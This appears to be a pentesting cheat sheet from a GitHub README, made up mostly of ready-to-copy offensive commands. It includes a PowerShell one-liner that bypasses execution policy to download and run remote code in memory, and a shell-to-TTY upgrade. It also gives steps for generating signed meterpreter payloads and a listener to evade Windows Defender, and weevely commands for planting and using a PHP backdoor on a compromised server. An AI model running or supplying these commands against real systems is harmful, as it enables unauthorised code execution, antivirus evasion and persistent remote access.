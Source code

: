 # Table of contents
* [PowerShell](#powershell)
  * [To load a PS module into the memory](#to-load-a-ps-module-into-the-memory)
* [Utils](#utils)
  * [Shell to TTY](#shell-to-tty)
  * [Sharing files with Windows machine](#sharing-files-with-windows-machine)
* [PrivEsc on Windows](#privesc-on-windows)
  * [Bypassing Windows Defender](#bypassing-windows-defender)

# PowerShell
## To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString($URL);"
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
# Utils
## Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
## Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share [path] -smb2support
```
# PrivEsc on Windows
## Bypassing Windows Defender
There're a [usefull scripts](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/), from **Astr0baby's blog**, just copy-paste them. 

**NOTE:** There're some replaces needed in the listener.sh script:

1. *Line 12:* remove the ./ from the call to msfconsole
2. *Line 16:* add -job after the run sentence

```bash
./msf-loader.sh
# introduce LHOST
# introduce LPORT
# domain to impersonate?
# The process should have created a 'payload.exe' and also 'payload-signed.exe'
./listener.sh
# Define the LHOST
# Define the LPORT
# Now the payload shall be ran into the target
```

# WebApplication Hacking
## Create a PHP Backdoor shell
The software named **weevely** will help on this matter. It's a software that crates the php file to upload to the exploited
server.

```bash
# Generate new agent
weevely generate <password> <path>
# Run terminal or command on the target
weevely <URL> <password> [cmd]
# Recover an existing session
weevely session <path> [cmd]
```
